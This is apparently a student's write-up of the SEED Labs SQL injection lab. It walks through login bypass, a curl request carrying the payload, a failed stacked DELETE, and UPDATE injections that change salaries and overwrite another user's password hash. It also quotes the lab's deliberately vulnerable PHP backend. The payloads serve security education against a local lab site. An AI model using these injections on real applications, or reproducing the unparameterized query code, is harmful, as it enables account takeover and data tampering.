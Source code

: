 # SQL-INJECTION
<table>
  <thead>
    <tr>
      <th>Title</th>
      <th>Author</th>
      <th>Date</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>SQL Injection Attack Seed Lab Ubunto 16.04</td>
      <td>M.Umer Hassan</td>
      <td>30-10-2021</td>
    </tr>
  </tbody>
</table>
<h1>Task 1</h1>
<h3>Login MYSQL:</h3>
<p>mysql -u root -pseedubuntu<br>
   mysql> use Users;<br>
   mysql> show tables;<br>
</p>
<h3>Use Such a SQL Query:</h3>
<p>select * from credential where Name = 'Alice';</p>
<p>Screen shoot is in SQL Injection Folder</p>
<h1>Task 2</h1>
<h2>Task 2.1</h2>
<ul>
<li>USERNAME: "Admin' #"</li>
<li>PASSWORD: "*" whatever the password was</li> 
</ul>
<h3>It will result in a SQL Query as:</h3>
<p>SELECT id, name, eid, salary, birth, ssn, address, email,<br>
   nickname, Password<br> 
   FROM credential<br>
   WHERE name= 'Admin' #' and Password='*'
   </p>
<p>Then statement after <code>#</code> will bi regarded as comments. So we can login in as <code> Admin</code>.</p>
<p>Screen shoot is in SQL Injection Folder</p>
<h2>Task 2.2</h2>
<pre>
<code>
curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23Password=xyz'
</code>
</pre>
<p>It will return a bunch of <code>html</code>code. When exporting outputs to file by<code> > temp.html</code>and open it</p>
<p>Screen shoot is in SQL Injection Folder</p>
<h2>Task 2.3</h2>
<p>We neeed to delete such a statement to append a row to current database:</p>
<code>DELETE credential where name='ted';
</code><br>
<p>So constructed:</p>
<ul>
<li>USERNAME: <code>" '1=1; DELETE credential where name='ted';#"</code></li>
<li>PASSWORD: <code>" "</code> (Remain Blank)</li> 
</ul>
<p>It fails and alerts with a syntax error:</p>
<p>Screen shoot is in SQL Injection Folder</p>
<p>Because in PHP's <code>mysqli</code> extension, which invokes <code>mysqli::query</code>  API to handle SQL statements, it doesn't support for multiple queries within the same run. Of course, the design of this API attributes to the concern of SQL injection.</p>
<h1>Task 3</h1>
<p>It's hard to find the navigation buttons on this website <br>(<a href="http://www.SeedLabSQLInjection.com" rel="nofollow">www.SeedLabSQLInjection.com</a>).
<p>In order to edit the profile, please log in and then jump to the link address: <br><a href="http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" rel="nofollow">http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php</a> by Hand.</p>
<h2>Task 3.1</h2>
<p>Log in with Alice's username and password, enter <br> <a href="http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" rel="nofollow">http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php</a></p>
<p>Modify Phone Number as <code>', Salary=500000</code> and save</p>
<h2>Task 3.2</h2>
<p>Log in with username <code>Boby' #</code>  and arbitrary password, open his profile edit page.</p>
<p>Fill in with:</p>
<p>Phone Number: <code>', Salary=1</code></p>
<p>And keep other properties unchanged. Submit the modification.</p>
<p>Now, you can see:</p>
<p>Screen shoot is in SQL Injection Folder</p>
<p>Log-in as Alice</p>
<p>Assume instead of logging in as Boby using inject method, We keep the login in as Alice, and open Alice's profile edit page.</p>
<p>We should change the Phone Number as</p> 
<pre><code>', Salary=1 where name='Boby' #</code></pre>
<h2>Task 3.3</h2>
<p>Of course, the simplest approach is to log-in as Boby like <code>Task 3.2</code> and change the password.</p>
<p>If we must do all things and keep log-in with Alice's own account. We might face such an issue:</p>
<p>According to code below in <code>unsafe_edit_backend.php</code>, if <strong>Password</strong> is to be updated, the session's <code>pwd</code> will be updated first, which makes our user authentication invalid immediately and the modification dropped. So we cannot modify the password field directly using Alice's authentication.</p>
<pre><span class="pl-s1"><span class="pl-c1">$</span>conn</span> = <span class="pl-en">getDB</span>();
<span class="pl-c">// Don't do this, this is not safe against SQL injection attack</span>
<span class="pl-s1"><span class="pl-c1">$</span>sql</span>=<span class="pl-s">""</span>;
<span class="pl-k">if</span>(<span class="pl-s1"><span class="pl-c1">$</span>input_pwd</span>!=<span class="pl-s">''</span>){
<span class="pl-c">// In case password field is not empty.</span>
<span class="pl-s1"><span class="pl-c1">$</span>hashed_</span> = <span class="pl-en">sha1</span>(<span class="pl-s1"><span class="pl-c1">$</span>input_pwd</span>);
<span class="pl-c">//Update the password stored in the session.</span>
<span class="pl-s1"><span class="pl-c1">$</span><span class="pl-c1">_SESSION</span></span>[<span class="pl-s">'pwd'</span>]=<span class="pl-s1"><span class="pl-c1">$</span>hashed_pwd</span>;
<span class="pl-s1"><span class="pl-c1">$</span>sql</span> = <span class="pl-s">"UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;"</span>;
}<span class="pl-k">else</span>{
<span class="pl-c">// if passowrd field is empty.</span>
<span class="pl-s1"><span class="pl-c1">$</span>sql</span> = <span class="pl-s">"UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;"</span>;
}
<span class="pl-s1"><span class="pl-c1">$</span>conn</span>-&gt;<span class="pl-en">query</span>(<span class="pl-s1"><span class="pl-c1">$</span>sql</span>);
<span class="pl-s1"><span class="pl-c1">$</span>conn</span>-&gt;<span class="pl-en">close</span>();
<span class="pl-en">header</span>(<span class="pl-s">"Location: unsafe_home.php"</span>);
<span class="pl-en">exit</span>();</pre>
<p>We should do all things in <strong>Phone Number</strong> field.</p>
<p>Assume we want to change Boby's password as <code>tedwashere</code>. First, we should get SHA1 value of our new password via some <a href="http://www.sha1-online.com/" rel="nofollow">online tool</a> as</p>
<pre><code>1b3263246794fe4094be7ae99e21b34454d9676f
</code></pre>
<p>Then construct <strong>Phone Number</strong> as:</p>
<pre><code>', password='1b3263246794fe4094be7ae99e21b34454d9676f' where name='Boby' #
</code></pre>
<p>and save. Now, the change works. You can log in with username <code>Boby</code> and password <code>tedwashere</code>.</p>
<p>Verify:</p>
<p>Screen shoot is in SQL Injection Folder</p>
